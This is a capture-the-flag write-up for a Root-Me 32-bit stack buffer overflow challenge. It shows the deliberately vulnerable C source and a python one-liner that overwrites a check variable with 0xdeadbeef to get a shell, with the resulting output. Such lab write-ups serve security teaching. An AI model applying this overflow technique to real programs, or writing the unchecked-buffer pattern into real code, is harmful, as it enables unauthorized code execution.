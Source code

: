 # ELF x86 - Stack buffer overflow basic1

- Problem: https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1 

We can see the source code as follows.
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
int main()
{
  int var;
  int check = 0x04030201;
  char buf[40];
  fgets(buf,45,stdin);
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

The check variable should be 0xdeadbeef. We can overflow buffer by inserting more than 40 bytes.
```
app-systeme-ch13@challenge02:~$ cat <(python -c 'print "A" * 40 + "\xef\xbe\xad\xde"') - | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ▒
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
```
